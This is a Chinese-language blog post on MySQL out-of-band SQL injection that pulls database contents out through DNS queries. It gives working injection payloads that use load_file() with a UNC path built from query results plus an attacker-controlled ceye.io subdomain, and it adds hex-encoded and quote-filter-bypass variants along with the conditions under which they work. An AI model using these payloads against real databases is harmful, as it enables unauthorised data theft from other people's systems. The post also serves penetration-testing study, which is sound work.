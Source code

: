 ```yaml
---
title: OOB注入(DNS外传)
date: 2018-02-13 11:28:13 Z
layout: post
categories: jekyll update
tags: mysql dns
img: https://i.loli.net/2018/07/09/5b434692472ed.png
---
```


#关于mysql OOB注入的研究
## 应用场景：


 1.注入点无回显，只能靠盲注，但盲注太慢又不想等 =_=.
 2.mysql （Mysql版本>=5.5.53 ）开启文件导入导出
   可以用该语句判断`show global variables like '%secure%';`
           如果secure_file_priv值为null,则未开启，如果为空，则开启；如果为目录，说明只能导入导出该文件夹下内容。
 3.目标是windows系统（UNC路径） 基本利用语句：
'union select 1,load_file(concat('\\\\',(database()),'.g8vbmp.ceye.io\\abc')),3;'
----
##为什么要这样写？：
  1.在windows下，可以使用以下语句来访问UNC路径，即请求网络上的资源（主要在局域网中）**\\server\\resource**  又因为'\'为转义字符，需要重复输入达到转义自身的目的。***'\\\\' -->'\\'***
  2.load_file()函数可以访问计算机上的资源，也可以请求UNC路径，如果将需要查询的数据拼接到UNC路径当中，那么数据可以凭借服务器对特定资源的请求而被外带出去。
  3.既然数据已经有了外传的途径，那么只需在包含了数据的请求传输途中做手脚即可。服务器通信的基础是IP,而DNS提供了域名->IP的解析服务，我们将数据拼接在了域名中，DNS服务器势必就会接触到数据，所以数据外传的关键就是DNS。架设一台我们可控的DNS服务器并监听记录下传来的请求就能获取数据。
     附图一张，简述原理。
![Image.jpg](https://i.loli.net/2018/07/09/5b43474f61f4f.jpg)
####   PS:此处假设有3个字段，2为输出点，g8......为ceye.io申请的域名，database()处即为需要外传的查询语句。
#### PSS:很奇怪的是，version()可以外传，但user()却不能，一张包含title,content字段的表，只有title可以外传，content同样不行。
     ----
     经过摸索，初步得出结论，外传的数据中如果含有空格或特殊字符则无法外传。可以考虑hex。
     测试语句：
'''
1.union select 1,load_file(concat("\\\\",(select hex(content) from pentest.news limit 1,1),'.g8vbmp.ceye.io\\abc')),3
2.id =(case when (1=1) then (select load_file(concat('\\\\',(select database()),'.g8vbmp.ceye.io\\qw'))) else 1*(select 1 from dual union select 2 from dual) end);'

可以绕过单双引号过滤的语句：
id =11 union select 1,load_file(concat(0x5c5c,(select hex(content) from pentest.news limit 1,1),0x2e6675636b6766772e636579652e696f5c5c61626378)),3;

'''
奇怪的是，这些语句只能用一次，第二次再使用就失效了

